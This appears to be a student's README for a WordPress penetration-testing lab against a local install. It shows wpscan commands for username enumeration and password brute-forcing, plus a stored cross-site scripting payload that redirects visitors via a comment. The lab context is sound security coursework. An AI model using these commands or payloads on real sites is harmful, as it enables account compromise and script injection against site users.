 # WordpressvsKali
# Project 7 - WordPress Pen Testing

Time spent: **9** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: Username enumararion

- [ ] Summary: Find valid usernames using wpscan
   
- [ ] GIF Walkthrough: 
    <img src="https://github.com/Tanya703/WordpressvsKali/blob/f9a78275c7e7b49ab38b30d820448d43e6120e7f/usernames.gif" width="800">
- [ ] Steps to recreate: 
wpscan --url http://127.0.0.1:8080 --api-token YOUR_TOKEN -e u vp 

  

    
### 2. (Required) Vulnerability Name: Password Enumeration

- [ ] Summary: Find correct passwords for the usernames found in previous challenge using wpscan
  
- [ ] GIF Walkthrough: 
<img src="https://github.com/Tanya703/WordpressvsKali/blob/6b33a6bd14b4ebfd52dbbeb7e084660c38448710/6yrqgi.gif" width="800">
- [ ] Steps to recreate: 
wpscan --url http://127.0.0.1:8080 --api-token YOUR_TOKEN --usernames username.txt --passwords password.txt
username.txt → a file with usernames found from Username enumeration scan. 
password.txt → a file with known passwords, use a sample size. 

    

### 3. (Required) Vulnerability Name: Unauthenticated Stored Cross-Site Scripting

- [ ] Summary: Insert a script that goes to a codepath website in comment section of the website.
  
- [ ] GIF Walkthrough: 
 <img src="https://github.com/Tanya703/WordpressvsKali/blob/6b33a6bd14b4ebfd52dbbeb7e084660c38448710/Cross-SiteScripting.gif" width="800">
- [ ] Steps to recreate: 
<body onload=window.location='https://codepath.org/'> in comment section


    
